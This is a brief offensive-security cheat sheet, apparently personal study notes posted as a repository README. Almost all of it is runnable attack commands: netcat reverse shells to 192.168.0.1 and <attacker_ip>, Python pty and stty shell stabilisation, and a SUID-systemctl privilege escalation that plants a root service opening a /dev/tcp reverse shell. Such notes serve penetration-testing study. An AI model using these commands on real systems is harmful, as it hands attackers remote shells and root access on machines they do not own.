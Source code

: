 # CyberCheatSheets
Reference Sheets / Notes of techniques learned

## Reverse Shells:

+ <b>Netcat - Listener</b>
```
$nc -nvlp 4242
```

+ <b>Netcat - Connecting to Listener</b>
```
nc -e /bin/sh 192.168.0.1 4242
```

+ <b>Netcat - Connecting to Listener without `-e`</b>
```
$mknod /tmp/backpipe p
$/bin/sh 0</tmp/backpipe | nc <attacker_ip> 4242 1>/tmp/backpipe
```


## Upgrading/Stablizing Shells:

+ <b>Using Ptyhon</b>

*Upgrading:*
```
python -c ‘import pty;pty.spawn(“/bin/bash”)’
$export TERM=xterm
```

*Stablizing:*
```
$^Z
$stty raw -echo; fg
(ENTER)
```


## Privilege Escalation:

+ <b>`/bin/systemctl` SUID</b>

*Check if `/bin/systemcl` is exploitable*
```
find / -perm -4000 2>/dev/null
```

*Write service file with printf (will be written to `/tmp/root.service`)*
```
printf '[Unit]\nDescription=root\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.0.1/4242 0>&1"\n\n[Install]\nWantedBy=multi-user.target\n' > /tmp/root.service
```

*Enable and start the service*
```
systemctl enable /tmp/root.service
systemctl start root
```
